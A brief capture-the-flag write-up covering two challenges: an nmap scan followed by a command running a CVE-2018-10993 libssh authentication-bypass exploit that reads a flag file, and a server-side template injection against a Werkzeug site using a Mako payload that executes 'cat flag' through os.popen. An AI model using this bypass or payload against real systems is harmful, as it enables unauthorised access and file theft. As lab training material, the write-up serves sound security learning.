 # CyberSecurity



libssh

Flag format: CTF{sha256}
Goal: The web application contains a vulnerability which allows an attacker to leak sensitive information.
libssh is a C library that enables you to write a program that uses the SSH protocol. With it, you can remotely execute programs, transfer files, or use a secure and transparent tunnel for your remote programs.
using Nmap to scan the port 
nmap –sV –sC –p port ip -Pn
after scanning we can use CVE-2018-10993 libSSH authentication bypass exploit
cve-2018-10993.py ip -p port -31367 -c "cd ..;cat flag.txt"
ctf

shark

Flag format: CTF{sha256}
Goal: The web application contains a vulnerability which allows an attacker to leak sensitive information.
curl is a command-line tool for getting or sending data including files using URL syntaxi
using curl we can find out that the website is uisng Werkzeug web application library
we can use Server-Side Template Injection and send MAKO payload using burp suite

name=<%
<%
import os
x=os.popen('cat flag').read()
%>
${x}





